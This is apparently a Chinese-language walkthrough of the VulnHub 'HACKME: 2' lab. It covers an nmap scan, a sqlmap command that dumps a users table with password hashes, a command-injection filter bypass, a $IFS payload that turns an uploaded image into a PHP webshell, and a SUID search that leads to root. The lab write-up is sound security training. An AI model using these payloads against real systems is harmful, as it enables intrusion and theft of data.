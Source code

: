 # HACKME: 2

> https://download.vulnhub.com/hackme/hackme2-DHCP.ova

靶场IP：`192.168.32.209`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.209                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 03:10 EDT
Nmap scan report for 192.168.32.209
Host is up (0.00042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.34 ((Ubuntu))
MAC Address: 00:0C:29:22:CA:D2 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.04 seconds
```

访问80端口

![image-20220907151222221](../../.gitbook/assets/image-20220907151222221.png)

注册测试用户

![image-20220907151329775](../../.gitbook/assets/image-20220907151329775.png)

输入框有SQL注入漏洞

![image-20220907151454563](../../.gitbook/assets/image-20220907151454563.png)

```
POST /welcome.php HTTP/1.1
Host: 192.168.32.209
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.32.209/welcome.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Origin: http://192.168.32.209
Connection: close
Cookie: PHPSESSID=d82p89ea990dqrg60r28uao5al
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

search=1

```

使用sqlmap进行注入，找到`superadmin/Uncrackable`

```
┌──(root💀kali)-[/tmp]
└─# sqlmap -r 1.txt  --level 5 --risk 3 --dbms=mysql -p search --tamper space2comment.py -D webapphacking -T users --dump

Database: webapphacking
Table: users
[7 entries]
+----+--------------+------------+----------------+----------------------------------+
| id | name         | user       | address        | pasword                          |
+----+--------------+------------+----------------+----------------------------------+
| 1  | David        | user1      | Newton Circles | 5d41402abc4b2a76b9719d911017c592 |
| 2  | Beckham      | user2      | Kensington     | 6269c4f71a55b24bad0f0267d9be5508 |
| 3  | anonymous    | user3      | anonymous      | 0f359740bd1cda994f8b55330c86d845 |
| 10 | testismyname | test       | testaddress    | 05a671c66aefea124cc08b76ea6d30bb |
| 11 | superadmin   | superadmin | superadmin     | 2386acb2cf356944177746fc92523983 |
| 12 | test1        | test1      | test1          | 05a671c66aefea124cc08b76ea6d30bb |
| 13 | sad          | sectest    | asdas@sad.com  | e10adc3949ba59abbe56e057f20f883e |
+----+--------------+------------+----------------+----------------------------------+

```

使用superadmin用户登录，发现有上传和查询页面。不过上传限制webshell

![image-20220907151842747](../../.gitbook/assets/image-20220907151842747.png)

发现查询框存在命令注入漏洞

![image-20220907151940343](../../.gitbook/assets/image-20220907151940343.png)

我们换其他命令来执行，例如pwd,ls都可以正确执行而cat命令无法执行，猜测其过滤了空格，我们使用`cat<welcomeadmin.php`这个payload来绕过过滤。
可以看到在返回包里泄露的welcomeadmin.php的完整源代码，包括文件上传的绝对路径。

![image-20220907154327943](../../.gitbook/assets/image-20220907154327943.png)

上传图片木马，并且移动文件变成php文件

```
fname=1&lname=system('mv$IFS/var/www/html/uploads/year2020/shell.jpg$IFS/var/www/html/uploads/year2020/shell.php')&search=Search+User
```

![image-20220907155920157](../../.gitbook/assets/image-20220907155920157.png)

寻找suid文件

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20220907160057594](../../.gitbook/assets/image-20220907160057594.png)

发现home目录下有一个可疑的文件，执行一下之后发现顺利get root权限。

![image-20230208145947136](../../.gitbook/assets/image-20230208145947136.png)
